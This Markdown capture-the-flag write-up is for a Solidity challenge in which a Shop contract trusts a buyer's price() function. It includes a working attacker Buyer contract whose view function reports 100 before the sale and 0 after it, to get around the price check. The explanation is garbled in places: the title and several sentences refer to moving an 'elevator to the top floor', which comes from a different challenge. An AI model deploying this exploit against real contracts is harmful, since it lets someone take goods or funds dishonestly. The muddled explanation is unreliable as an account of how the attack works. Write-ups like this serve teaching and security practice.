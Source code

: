 # Elevator

## Challenge Description

Сan you get the item from the shop for less than the price asked?

##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint);
}

contract Shop {
    uint public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}

```

## Challenge Solution Walkthrough

In this challenge, we exploit the `Shop` contract by creating our own `Buyer` contract with a modified `price()` function. By controlling the behavior of `price()`, we can bypass the condition in the `Shop` contract and move the elevator to the top floor.

Here's an example implementation of the `Buyer` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract Buyer {
    Shop public shop;

    constructor(address shopAddress) {
        shop = Shop(shopAddress);
    }

    function price() public view returns (uint256) {
        if (shop.isSold() == false) {
            return 100;  // Return a price of 100 when the product is not sold
        } else {
            return 0;    // Return a price of 0 when the product is sold
        }
    }

    function solveChallenge() public {
        shop.buy();  // Call the buy() function of the Shop contract
    }
}
```

The `Buyer` contract has a `solveChallenge()` function that calls the `buy()` function of the `Shop` contract.

Inside the `Buyer` contract, we implement our own `price()` function. This function checks if the product is sold or not by calling the `isSold()` function of the `Shop` contract. If the product is not sold, it returns a price of `100`. This allows us to pass the condition in the `Shop` contract and proceed with the purchase. However, if the product is already sold, our `price()` function returns `0`, effectively bypassing the condition in the `Shop` contract and allowing us to buy the product for free.

By executing the `solveChallenge()` function of the `Buyer` contract, we trigger the modified `price()` function and exploit the vulnerability in the `Shop` contract. As a result, we can successfully move the elevator to the top floor without paying for the product.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
